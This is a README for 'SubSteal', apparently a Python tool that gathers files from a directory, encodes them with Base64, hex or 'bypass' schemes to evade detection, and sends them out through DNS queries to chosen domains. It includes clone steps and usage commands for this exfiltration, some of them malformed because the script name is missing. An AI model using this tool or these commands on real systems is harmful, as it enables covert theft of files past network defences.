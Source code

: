 # SubSteal

## Description
SubSteal is a Python script designed to send data to subdomains using various encryption methods. This script can be used to distribute data across multiple domains and query them using different DNS record types.

## Features
- Collects files from a specified directory.
- Encodes data using Base64, hexadecimal, and custom bypass methods.
- Sends data to subdomains using DNS queries.
- Supports multiple DNS query modes: TXT, A, NS, and RANDOM.

## Requirements
- Python 3.x
- `os`, `subprocess`, `base64`, `json`, `binascii`, `time`, `argparse`, `random`, `signal`, `sys` modules (standard Python libraries)
- dig

## Installation
Clone the repository:
```
git clone https://github.com/mel4mi/SubSteal
cd SubSteal
python3 SubSteal.py
```



# Usage
Run the script with the required arguments:

Arguments:
```
--domains       #List of domains to distribute data across (required).
--encryption    #Encryption method to use (xxd, low_bypass, medium_bypass) (required).
--mode          #Query mode (TXT, A, NS, RANDOM). Default is TXT.
```

Example Usage:
```
python3 --domains example.com example2.com --encryption xxd
```
```
python3 --domains example.com example2.com --encryption low_bypass
```
```
python3 --domains example.com --encryption xxd
```
```
python3 --domains example.com --encryption xxd --mode RANDOM
```
